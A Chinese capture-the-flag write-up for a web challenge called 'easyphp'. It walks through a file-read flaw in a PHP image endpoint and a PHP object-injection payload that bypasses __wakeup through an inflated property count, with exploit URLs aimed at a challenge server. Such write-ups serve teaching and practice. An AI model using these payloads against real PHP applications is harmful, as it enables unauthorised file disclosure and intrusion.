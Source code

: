 # 网络内生安全试验场——CTF答题夺旗赛（第二季）

# easyphp

## Analyze

查看网页源码

	<html>
		<head>
		</head>
		<body>
			<img src="show.php?img=aGludC5qcGc=" width="100%">
		</body>
	</html>

访问页面时发现有一张图片，查看图片地址

	http://120.55.43.255:13005/show.php?img=aGludC5qcGc=

`aGludC5qcGc=`base64解码得到`hint.jpg`，由此可以得知`show.php`是将参数`img`经base64解码得到的值进行读文件操作。

尝试使用

	php://filter/read=convert.base64-encode/resource=index.php

base64解码值读取源码

	http://120.55.43.255:13005/show.php?img=cGhwOi8vZmlsdGVyL3JlYWQ9Y29udmVydC5iYXNlNjQtZW5jb2RlL3Jlc291cmNlPWluZGV4LnBocA==

返回"File not found!"。。。

## Get Source

纠结了一下下，不知道是怎么回事，然后又尝试直接将`index.php`base64编码，可看到注释掉的php源码，居然成功了，看来是想复杂了。

上源码：

index.php

	<?php 
	  require_once('hint.php');
	  $x = new hint();
	  isset($_GET['class']) && $g = $_GET['class'];
	  if (!empty($g)) {
	    $x = unserialize($g);
	    echo $x;
	  }
	?>

发现hint.php

	<?php
	  error_reporting(0);
	  //flag is in flag.php
	  class hint
	  { 
	    public $file='';
	    function __destruct()
	    { 
	      if(!empty($this->file)) 
	      {
	       if(strchr($this-> file,"\\")===false &&  strchr($this->file, '/')===false)
	          show_source(dirname (__FILE__).'/'.$this ->file);
	       else      die('Wrong filename.');
	      }
	    }  
	    function __wakeup(){ 
	      $this-> file='index.php'; 
	    } 
	    public function __toString(){
	      return '' ;
	    }
	  } 
	?>

源码中的注释部分提示flag在flag.php中

想尝试用show.php直接读取flag.php，分析show.php：

	<?php
	  $f = $_GET['img'];
	  if (!empty($f)) {
	    $f = base64_decode($f);
	    if (stripos($f,'..')===FALSE && stripos($f,'/')===FALSE && stripos($f,'\\')===FALSE
	    && stripos($f,'flag')===FALSE) {
	      readfile($f);
	    } else {
	      echo "File not found!";
	    }
	  }
	?>

发现`flag`被过滤了，而且`/`也被绕过了，这也是为什么之前使用`php://filter`出错的原因。

尝试绕过，不过过滤比较严格，绕过有点难度，转而分析其他两个文件。

## Unserialize

涉及到**反序列化**：`$x = unserialize($g);`,发现在hint.php中

	function __destruct()
    { 
      if(!empty($this->file)) 
      {
       if(strchr($this-> file,"\\")===false &&  strchr($this->file, '/')===false)
          show_source(dirname (__FILE__).'/'.$this ->file);
       else      die('Wrong filename.');
      }
    } 

存在文件读取，可以构造**Payload**使得`$this-> file = "flag.php"`，由

	<?php
	  error_reporting(0);
		//flag is in flag.php
		class hint{ 
	    public $file='';
	    function __destruct(){ 
	      if(!empty($this->file)) {
	       if(strchr($this-> file,"\\")===false &&  strchr($this->file, '/')===false)
	          show_source(dirname (__FILE__).'/'.$this ->file);
	       else      die('Wrong filename.');
	      }}  
	    function __wakeup(){ $this-> file='index.php'; } 
	    public function __toString(){return '' ;}
	  } 
	  $a = new hint();
	  $a->file = "flag.php";
	  echo serialize($a);

得到字符串 `O:4:"hint":1:{s:4:"file";s:8:"flag.php";}`，但是这样并不能读取到flag.php文件，因为在序列化时，`__wakeup()`函数又会将`"index.php"`赋值给`$this-> file`.

这里涉及的另一个知识，是php本身的一个bug，详细信息可以查询[`php bug 72663`](https://www.baidu.com/s?wd=php%20bug%2072663)，这个 bug 的原理是：当反序列化字符串中，表示**属性个数的值大于真实属性个数**时，会跳过`__wakeup` 函数的执行。

于是Payload如下：

	http://120.55.43.255:13005/index.php?class=O:4:"hint":2:{s:4:"file";s:8:"flag.php";}

![](./index_files/ichunqiuCTF_easyphp.jpg)

